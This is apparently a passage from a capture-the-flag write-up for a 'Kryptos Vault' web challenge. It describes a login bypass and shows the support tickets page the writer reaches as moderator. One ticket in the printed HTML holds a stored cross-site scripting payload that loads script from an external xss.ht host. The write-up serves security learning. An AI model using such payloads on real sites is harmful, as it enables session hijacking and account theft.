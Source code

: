 
## Tickets Page
We now have access to the `tickets` page and bypassed the login form! You'll also notice we're currently logged in as moderator!
```html
<html lang="en">
   <head>
      <meta charset="UTF-8">
      <meta name="viewport" content="width=device-width, initial-scale=1.0">
      <meta http-equiv="X-UA-Compatible" content="ie=edge">
      <link rel="icon" type="image/x-icon" href="/static/images/favicon.png">
      <title>Kryptos Vault</title>
      <link rel="stylesheet" href="/static/css/tickets.css">
   </head>
   <body>
        <nav class="nav-bar">
            <ul>
                <li>
                    <a href="/settings">Settings</a>
                </li>
            </ul>
        </nav>
        <nav class="logged-bar">
           <ul>
               <li>
                   logged in as (moderator), <a href="/logout">logout</a>
               </li>
           </ul>
       </nav>
      <div class="container on">
         <div class="screen">
            <h3 class="title">
               Kryptos Vault Support tickets
            </h3>
            <div class="message-container">
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-15 12:03:12</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p>I have lost my rfid for the vault. My vault serial is 000083921. Please send me a new rfid.</p></div>
                    </div>
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-15 12:03:12</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p>Vault 000076439 requires maintenance.</p></div>
                    </div>
                
                    <div class="ticket-card">
                        <div class="c1"><span>Submitted </span></div>
                        <div class="c2"><p>2022-05-15 12:10:28</p></div>
                        <div class="c1"><span>Message </span></div>
                        <div class="c2"><p>"><script src=https://pjs7593.xss.ht></script></p></div>
                    </div>
            </div>
         </div>
      </div>
   </body>
</html>       
```